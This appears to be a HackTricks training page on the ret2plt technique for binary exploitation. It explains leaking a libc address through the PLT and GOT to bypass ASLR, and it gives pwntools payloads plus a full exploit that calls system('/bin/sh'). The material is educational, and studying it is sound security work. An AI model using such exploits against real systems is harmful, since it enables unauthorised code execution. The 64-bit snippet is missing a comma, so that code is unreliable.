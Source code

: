 # Ret2plt

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

The goal of this technique would be to **leak an address from a function from the PLT** to be able to bypass ASLR. This is because if, for example, you leak the address of the function `puts` from the libc, you can then **calculate where is the base of `libc`** and calculate offsets to access other functions such as **`system`**.

This can be done with a `pwntools` payload such as ([**from here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got)):

```python
# 32-bit ret2plt
payload = flat(
    b'A' * padding,
    elf.plt['puts'],
    elf.symbols['main'],
    elf.got['puts']
)

# 64-bit
payload = flat(
    b'A' * padding,
    POP_RDI,
    elf.got['puts']
    elf.plt['puts'],
    elf.symbols['main']
)
```

Note how **`puts`** (using the address from the PLT) is called with the address of `puts` located in the GOT (Global Offset Table). This is because by the time `puts` prints the GOT entry of `puts`, this **entry will contain the exact address of `puts` in memory**.

Also note how the address of `main` is used in the exploit so when `puts` ends its execution, the **binary calls `main` again instead of exiting** (so the leaked address will continue to be valid).

> [!CAUTION]
> Note how in order for this to work the **binary cannot be compiled with PIE** or you must have **found a leak to bypass PIE** in order to know the address of the PLT, GOT and `main`. Otherwise, you need to bypass PIE first.

You can find a [**full example of this bypass here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). This was the final exploit from that example:

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## Other examples & References

- [https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/csawquals17_svc/index.html)
  - 64 bit, ASLR enabled but no PIE, the first step is to fill an overflow until the byte 0x00 of the canary to then call puts and leak it. With the canary a ROP gadget is created to call puts to leak the address of puts from the GOT and the a ROP gadget to call `system('/bin/sh')`
- [https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html](https://guyinatuxedo.github.io/08-bof_dynamic/fb19_overfloat/index.html)
  - 64 bits, ASLR enabled, no canary, stack overflow in main from a child function. ROP gadget to call puts to leak the address of puts from the GOT and then call an one gadget.

{{#include ../../../../banners/hacktricks-training.md}}
